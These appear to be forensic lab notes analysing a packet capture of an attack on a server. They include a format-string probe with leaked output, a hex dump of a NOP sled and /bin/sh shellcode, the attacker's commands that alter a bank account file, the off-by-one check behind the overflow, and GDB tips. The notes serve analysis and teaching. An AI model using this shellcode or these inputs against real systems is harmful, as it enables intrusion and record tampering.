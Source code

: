 # Notes

## Enter vms

ssh user@192.168.56.102
ssh administrateur@192.168.10.100 (from analyste)

## Logs

### syslog.4

1665 Nov 11 09:52:31 New usb enter

## Traces.pcap analysis

### n°144

```
ECHO %x%x%x%x%x
8049f6714a017ffe6e615
```

### n°258

port source : 48924

NOPs
and /bin/sh at the end

```
0000   08 00 27 d6 0f 5a 54 bf 64 79 25 77 08 00 45 00   ..'Ö.ZT¿dy%w..E.
0010   01 0a 14 44 40 00 40 06 a0 91 c0 a8 01 64 c0 a8   ...D@.@. .À¨.dÀ¨
0020   02 64 bf 1c 17 70 18 f8 6b dd 61 77 a2 e3 80 18   .d¿..p.økÝaw¢ã..
0030   00 bb 0a 0a 00 00 01 01 08 0a 00 08 80 de 00 03   .»...........Þ..
0040   d1 af 90 90 90 90 90 90 90 90 90 90 90 90 90 90   Ñ¯..............
0050   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90   ................
0060   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90   ................
0070   90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90   ................
0080   90 90 eb 71 5d 31 c0 31 db 31 c9 31 d2 31 ff 31   ..ëq]1À1Û1É1Ò1ÿ1
0090   f6 b0 22 89 c6 b0 c0 b1 01 66 c1 e1 0c b2 03 4f   ö°".Æ°À±.fÁá.².O
00a0   cd 80 89 c1 31 ff b3 02 89 ca 80 c1 04 31 c0 66   Í..Á1ÿ³..Ê.Á.1Àf
00b0   b8 70 01 fe c3 c6 02 10 89 39 cd 80 39 f8 75 ed   ¸p.þÃÆ...9Í.9øuí
00c0   8b 01 3c 02 75 e7 89 ca 31 c9 31 c0 b0 3f cd 80   ..<.uç.Ê1É1À°?Í.
00d0   41 b0 3f cd 80 41 b0 3f cd 80 31 c0 89 6d 08 89   A°?Í.A°?Í.1À.m..
00e0   45 0c 88 45 07 b0 0b 89 eb 8d 4d 08 8d 55 0c cd   E..E.°..ë.M..U.Í
00f0   80 b0 01 cd 80 e8 8a ff ff ff 2f 62 69 6e 2f 73   .°.Í.è.ÿÿÿ/bin/s
0100   68 41 41 41 41 41 41 41 41 41 0a 00 00 00 0d 00   hAAAAAAAAA......
0110   00 00 8b 91 98 c3 ff 0a                           .....Ãÿ.
```

### n°290

payload="uname"

response at n°292 => Linux

### n°804

paylaod="chmod u+w A9826"

### n°1246

payload="echo 1000000 > A9826" // the attaquant write that the bank account A9826 contains 1000000

### n°1638

payload="chmod u-w A9826"

### n°1728

payload="exit"

## BOV

in  traitementClient.c:sanitizeBuffer, it compares using a > and not a >= 

## GDB

gdb peda installé par défaut sur l'analyste
gdb ./serveur

set follow-fork-mode child # to follow the child when forking
b doEcho # put a breakpoint at the doEcho function
run # launch the server
target record-full # allows to go back one step

ni # next iteration, step over to the next assembly instruction
n # next step, only available if program was compiled with debugging options

reverse-step # goes back one iteration
reverse-next # goes back one step

delete [breakpoints] [range...]

print msg.buffer / print &msg.buffer / print *msg.buffer # to check values


